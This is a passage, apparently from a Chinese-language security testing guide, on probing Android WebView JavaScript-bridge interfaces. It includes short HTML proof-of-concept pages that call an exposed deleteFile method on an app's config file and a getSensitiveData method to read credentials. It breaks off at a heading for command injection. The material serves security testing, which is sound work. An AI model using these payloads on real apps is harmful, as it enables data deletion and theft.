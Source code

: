 构造 HTML 文件，模拟前端调用 JSB 接口的行为：  
1. 测试所有暴露的接口是否存在安全隐患。  
  
1. 传递不同类型的参数（正常值、特殊字符、恶意命令等）。  
  
##   
##   
#### 4.2 测试案例  
####   
##### 测试场景 1：未授权方法调用  
  
构造恶意页面，通过暴露接口调用敏感方法：  
```
<!DOCTYPE html>
<html>
<head>
    <title>JSB Exploit</title>
</head>
<body>
    <script>
        // 尝试调用暴露的接口
        window.Android.deleteFile("/data/data/com.vulnerable.app/shared_prefs/config.xml");
    </script>
</body>
</html>

```  
  
**预期结果**  
  
目标文件被删除。  
  
##### 测试场景 2：数据泄露  
  
通过暴露接口获取敏感数据：  
```
<!DOCTYPE html>
<html>
<head>
    <title>JSB Data Leak</title>
</head>
<body>
    <script>
        // 获取应用的敏感数据
        var sensitiveData = window.Android.getSensitiveData();
        console.log("Sensitive Data: " + sensitiveData);
    </script>
</body>
</html>

```  
## 预期结果获取到应用内部的敏感信息，如用户凭证、配置等。  
##   
##   
##### 测试场景 3：命令注入  
  